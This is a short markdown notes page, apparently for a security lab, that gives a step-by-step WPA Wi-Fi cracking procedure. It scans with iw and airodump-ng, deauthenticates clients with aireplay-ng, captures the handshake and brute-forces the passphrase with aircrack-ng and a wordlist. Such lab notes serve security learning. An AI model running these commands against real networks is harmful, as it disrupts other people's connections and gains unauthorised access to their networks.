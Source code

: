 ```yaml
---
title: Wi-Fi Hacking
sidebar_position: 8
---
```


## WPA Hacking
- List all interfaces with the command `iw dev`.
- Scan for new networks using `sudo iw dev wlan2 scan`
- Get the BSSID and SSID values.
- Find the channel value using `sudo airodump-ng wlan2`.
- Attack the channel and create an output file using `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`. Keep this running.
- Open another terminal and send deauthentication packets to the connected device using `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
- Wait for the 4 way handshake to happen in the first terminal.
- Bruteforce the password after the handshake happened using `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`.
- Get the password and connect to the interface.